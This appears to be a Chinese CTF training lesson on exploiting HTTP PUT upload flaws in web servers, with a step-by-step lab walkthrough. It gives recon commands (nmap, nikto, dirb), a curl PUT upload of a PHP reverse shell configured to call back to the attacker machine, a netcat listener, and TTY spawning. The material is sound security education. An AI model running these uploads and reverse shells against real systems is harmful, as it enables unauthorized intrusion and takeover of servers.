# CTF夺旗全套视频教程-网络安全：P18：PUT上传漏洞 🚩

## 概述
在本节课中，我们将学习CTF训练中一种常见的漏洞——中间件PUT上传漏洞。通过利用该漏洞，攻击者可以从外部向服务器上传Web Shell，进而获取主机的最高权限（root权限），最终得到目标Flag值。我们将从环境搭建、信息收集、漏洞探测到利用攻击，完整地演示整个流程。

---

## 中间件PUT漏洞介绍
上一节我们概述了课程目标，本节中我们来详细看看什么是中间件PUT漏洞。




中间件是指如Apache、Tomcat、IIS、WebLogic等应用程序。这些中间件可以配置支持多种HTTP方法。HTTP方法包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每个HTTP方法都有其特定功能。在这些方法中，**PUT方法允许客户端直接上传文件到服务器**。如果恶意攻击者发现中间件开放了PUT方法，就可以利用它直接上传Web Shell到服务器的指定目录。


能够直接上传Shell，从侧面反映了PUT漏洞的严重性。



---

## 实验环境搭建
了解了漏洞原理后，我们需要搭建环境进行实践。以下是实验环境配置：

*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.111`
*   **靶场机器**：Linux系统
    *   IP地址：`192.168.1.102`

我们的最终目标是：获取靶场机器的root权限，并找到对应的Flag值。

---

## 第一步：信息收集与探测
现在我们已经拿到了实验环境。进行任何操作前，都需要先进行信息收集，目的是了解目标。

首先，我们可以扫描靶机开放的所有端口。这里使用Nmap工具，并采用最快速度扫描以节省时间。

```bash
nmap -T4 -p- 192.168.1.102
```

除了扫描端口，我们还可以使用Nmap加载所有扫描模块，对靶机进行更全面的信息探测。





```bash
nmap -T4 -A -v 192.168.1.102
```

如果扫描结果显示开放了HTTP服务（如80端口），我们就可以使用其他工具对Web服务进行深入探测。

以下是针对HTTP服务的敏感信息探测：

使用Nikto工具进行扫描。
```bash
nikto -h http://192.168.1.102
```

使用Dirb工具进行目录爆破。
```bash
dirb http://192.168.1.102
```

---

## 第二步：分析扫描结果
信息收集完成后，我们需要对获取的信息进行深入挖掘和分析。

分析Nmap的扫描结果，我们发现：
*   靶机开放了**22端口（SSH服务）**和**80端口（HTTP服务）**。
*   在详细扫描信息中，可以看到HTTP服务支持的**方法列表**，这至关重要。

分析Nikto的扫描结果，并未发现特别敏感的信息。



分析Dirb的扫描结果，发现了一个名为`/test/`的目录。通过浏览器访问该目录，显示为空，没有直接可利用的信息。

---

## 第三步：使用漏洞扫描器
对于开放的Web服务，我们可以使用自动化漏洞扫描器进行辅助探测。本节课使用OWASP ZAP。



在Kali中打开ZAP，输入靶场地址`http://192.168.1.102`进行自动攻击扫描。扫描结果主要显示了一些中低危漏洞，如缺少安全头、目录浏览等，并未发现可直接利用的高危漏洞。



难道就没有办法攻击了吗？并非如此。我们还需要手动测试目标是否存在PUT漏洞。



---

## 第四步：手动探测PUT漏洞
当自动化工具效果有限时，手动测试是关键。我们针对Dirb发现的`/test/`目录进行PUT方法探测。



使用cURL工具发送OPTIONS请求，查看该目录支持的HTTP方法。
```bash
curl -v -X OPTIONS http://192.168.1.102/test/
```
在服务器返回的响应报文中，如果**允许的方法列表中包含PUT**，则证明该目录存在PUT上传漏洞。





---

## 第五步：利用PUT漏洞上传Web Shell
确认漏洞存在后，我们开始利用。思路是：上传一个Web Shell到服务器，然后访问并执行该Shell，让靶机向我们攻击机反弹一个Shell连接。

**1. 准备Web Shell**
我们从Kali的`/usr/share/webshells/php/`目录下找一个反弹Shell脚本。
```bash
cd /usr/share/webshells/php/
cp php-reverse-shell.php /home/kali/Desktop/shell.php
```
编辑`shell.php`文件，将其中的IP和端口改为攻击机的监听地址（如`192.168.1.111:443`）。

**2. 上传Web Shell**
我们可以使用浏览器插件（如Postman）或直接使用cURL的PUT方法上传文件。
```bash
# 使用cURL PUT上传示例
curl -v -X PUT --data-binary @/home/kali/Desktop/shell.php http://192.168.1.102/test/shell.php
```
上传成功后，访问`http://192.168.1.102/test/shell.php`应能看到上传的文件。





**3. 在攻击机开启监听**
在攻击机上使用netcat监听我们指定的端口（如443）。
```bash
nc -nlvp 443
```

**4. 触发Web Shell**
在浏览器中访问上传的Shell文件地址`http://192.168.1.102/test/shell.php`。此时，攻击机的netcat终端会接收到靶机反弹回来的Shell连接。

---



## 第六步：权限提升初步
成功获取Shell后，我们通常处于一个低权限用户（如`www-data`）下。我们需要将其提升为root权限。

首先，查看当前用户权限。
```bash
id
whoami
```
为了获得一个更稳定的交互式Shell，可以使用Python生成一个TTY。
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
或者
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```
关于如何从低权限用户提升到root权限，我们将在后续课程中详细介绍。



---



## 总结
本节课中，我们一起学习了PUT上传漏洞的完整利用流程：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标开放的服务和敏感目录。
2.  **漏洞探测**：通过发送OPTIONS请求，手动检测目标目录是否支持PUT方法。
3.  **漏洞利用**：利用PUT方法上传精心构造的Web Shell文件。
4.  **获取Shell**：在攻击机设置监听，触发Web Shell获取靶机的反向连接。
5.  **权限提升**：初步进入靶机系统，为后续的提权操作做准备。

PUT漏洞的利用关键在于发现开放了PUT方法的目录，并且该目录具有可执行权限。在实战和CTF比赛中，保持细致的手动测试习惯往往能发现自动化工具忽略的漏洞点。